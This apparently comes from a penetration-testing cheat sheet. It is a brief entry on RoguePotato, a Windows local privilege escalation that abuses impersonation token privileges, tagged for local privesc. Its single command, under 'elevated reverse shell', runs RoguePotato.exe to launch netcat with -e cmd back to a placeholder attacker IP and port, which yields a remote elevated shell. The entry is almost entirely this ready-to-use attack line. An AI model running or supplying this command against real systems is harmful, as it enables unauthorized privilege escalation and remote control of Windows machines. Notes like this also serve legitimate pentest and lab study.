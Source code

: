 # roguepotato

% SeAssignPrimaryToken, SeImpersonate, token
#plateform/windows #target/local #cat/PRIVESC/TOKEN


## elevated reverse shell
```cmd
.\RoguePotato.exe -r <ip> -c "c:\tools\nc.exe <ip> <port> -e cmd" -l 9999
```


